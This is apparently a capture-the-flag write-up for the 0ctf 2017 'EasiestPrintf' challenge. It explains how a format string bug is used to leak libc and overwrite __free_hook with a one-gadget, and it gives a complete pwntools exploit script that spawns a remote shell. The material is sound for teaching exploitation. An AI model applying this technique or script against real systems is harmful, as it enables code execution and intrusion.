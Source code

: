 # 0ctf quals 2017 : EasiestPrintf

## **[Principle]**
format string

## **[Purpose]**
Master the general process of PWN topics

## **[Environment]**
Ubuntu

## **[Tools]**
gdb、objdump、python、pwntools

## **[Process]**

This is a simple binary. After some setup, it first gives us an arbitrary read and then a 159-byte format string vulnerability. The problem is that this is a Full RELRO binary, so we can not change the GOT value to hijack the control flow. Moreover, because the printf is immediately followed by an _exit, we have to exploit in a single format string.

Several ideas come to my mind.

Because it is a 32-bit binary, maybe we can brute force the return address of printf.
Exploit the exit function, maybe something like atexit function pointer is exploitable.
Change the value of __malloc_hook or __free_hook and find a way to trigger them in printf.
For the first idea, the search space is large, and both the manual randomization of stack through alloca and sleep(3) at the beginning of the binary discourage this solution.

For the second idea, atexit function pointers are encrypted, and this binary use _exit instead of exit, which won’t trigger atexit functions anyway.

Finally, the third idea works out. By searching malloc in vfprintf.c, it seems that we can trigger malloc and the following free if the width field of the format placeholder is large enough.

vfprintf.c

	if (width >= WORK_BUFFER_SIZE - 32)
	  {
	    size_t needed = ((size_t) width + 32) * sizeof (CHAR_T);
	    ...
	    workstart = (CHAR_T *) malloc (needed);
Although it took me quite a while to come up with the solution, the final exploitation is short and straightforward.

Leak the libc address from the arbitrary read.
Construct a format string with
the %hhn trick to modify __free_hook to the one-gadget.
%100000c to trigger malloc and free.
I choose __free_hook instead of __malloc_hook because the address of __malloc_hook contains a \x0a byte which will break the reading of the input.

The full script is as follows.

EasiestPrintf_exp.py

	from pwn import *

	context.terminal = ['tmux', 'splitw', '-h']
	context.log_level = 'critical'

	libc = ELF('./libc.so.6_0ed9bad239c74870ed2db31c735132ce')
	binary = ELF('./EasiestPrintf')
	read_got = binary.symbols['_GLOBAL_OFFSET_TABLE_'] + 12
	libc.symbols['one_gadget'] = 0x3E297

	def exec_fmt(payload):
	    p = binary.process(env={ 'LD_PRELOAD': libc.path })
	    p.sendline(str(read_got))
	    p.recvuntil('Good Bye\n')
	    p.sendline(payload)
	    return p.recvall()

	fmt = FmtStr(exec_fmt)
	log.critical('offset: ' + str(fmt.offset))


	# r = binary.process(env={ 'LD_PRELOAD': libc.path })
	# gdb.attach(r, '''
	# c
	# ''')
	r = remote('202.120.7.210', 12321)

	print r.recvline()

	# Leak the libc base address.
	r.sendline(str(read_got))
	data = r.recvline()
	print data
	read_addr = int(data, 16)
	libc.address = read_addr - libc.symbols['read']
	log.critical('libc_base: ' + hex(libc.address))
	log.critical('__free_hook: ' + hex(libc.symbols['__free_hook']))
	log.critical('one gadget: ' + hex(libc.symbols['one_gadget']))

	# Use format string to override the value of __free_hook to one gadget and
	# trigger free by a long width format string.
	print r.recvline()
	r.sendline(fmtstr_payload(fmt.offset, { libc.symbols['__free_hook']: libc.symbols['one_gadget'] }) + '%100000c')
	r.interactive()



## **[Summary]**
What I’ve learned:
Both printf and scanf can trigger malloc and free.
